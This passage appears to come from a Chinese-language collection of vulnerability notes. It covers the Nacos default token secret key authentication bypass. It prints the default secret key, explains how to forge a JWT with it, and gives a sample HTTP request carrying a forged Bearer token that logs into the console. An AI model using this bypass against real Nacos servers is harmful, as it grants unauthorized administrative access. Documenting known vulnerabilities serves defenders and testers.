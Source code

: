在配置文件`conf/application.properties` 中，

```text
### The default token (Base64 String):
nacos.core.auth.plugin.nacos.token.secret.key=SecretKey012345678901234567890123456789012345678901234567890123456789
```

利用默认 key 构造 JWT Token，注意修改 exp 中为有效的时间戳。

![nacos-jwt](../images/nacos-jwt.png)

在请求头中添加 `Authorization` 字段，如果响应状态码为 200，则 Token 有效，可以登录。

```http
GET /nacos/v1/auth/users?pageNo=1&pageSize=9&search=accurate HTTP/1.1
Host: 192.168.200.1:8848
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6IjE3ODc3OTE3MTAifQ.5b6ECnMkaTubS_S0q7W--L0Db0-TlbQQI0NNQeZ4pRE
```

拦截登录的请求数据包，添加 Token，登录成功。

### 参考

- <https://github.com/alibaba/nacos/releases/tag/2.2.0.1>
- <https://nacos.io/zh-cn/blog/announcement-token-secret-key.html>

## Nacos Jraft Hessian 反序列化漏洞（CNVD-2023-45001）
